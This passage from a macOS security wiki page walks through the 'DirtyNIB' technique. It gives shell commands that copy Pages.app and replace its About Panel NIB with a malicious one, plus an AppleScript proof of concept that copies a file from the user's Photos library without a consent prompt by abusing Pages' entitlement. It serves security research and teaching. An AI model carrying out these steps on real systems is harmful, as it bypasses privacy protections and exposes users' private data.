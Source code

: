 <figure><img src="../../../.gitbook/assets/image (684).png" alt="" width="563"><figcaption></figcaption></figure>

With our ability to execute arbitrary AppleScript code from a NIB, we next need a target. Let’s choose Pages for our initial demo, which is of course an Apple application and certainly shouldn’t be modifiable by us.

We’ll first take a copy of the application into `/tmp/`:

```bash
cp -a -X /Applications/Pages.app /tmp/
```

Then we’ll launch the application to avoid any Gatekeeper issues and allow things to be cached:

```bash
open -W -g -j /Applications/Pages.app
```

After launching (and killing) the app the first time, we’ll need to overwrite an existing NIB file with our DirtyNIB file. For demo purposes, we’re just going to overwrite the About Panel NIB so we can control the execution:

```bash
cp /tmp/Dirty.nib /tmp/Pages.app/Contents/Resources/Base.lproj/TMAAboutPanel.nib
```

Once we’ve overwritten the nib, we can trigger execution by selecting the `About` menu item:\


<figure><img src="../../../.gitbook/assets/image (685).png" alt="" width="563"><figcaption></figcaption></figure>

If we look at Pages a bit closer, we see that it has a private entitlement to allow access to a users Photos:

<figure><img src="../../../.gitbook/assets/image (686).png" alt="" width="479"><figcaption></figcaption></figure>

So we can put our POC to the test by **modifying our AppleScript to steal photos** from the user without prompting:

{% code overflow="wrap" %}
```applescript
use framework "Cocoa"
use framework "Foundation"

set grabbed to current application's NSData's dataWithContentsOfFile:"/Users/xpn/Pictures/Photos Library.photoslibrary/originals/6/68CD9A98-E591-4D39-B038-E1B3F982C902.gif"

grabbed's writeToFile:"/Users/xpn/Library/Containers/com.apple.iWork.Pages/Data/wtf.gif" atomically:1
```
{% endcode %}

{% hint style="danger" %}
[**Malicious .xib file that executes arbitrary code example.**](https://gist.github.com/xpn/16bfbe5a3f64fedfcc1822d0562636b4)
{% endhint %}

## Launch Constraints
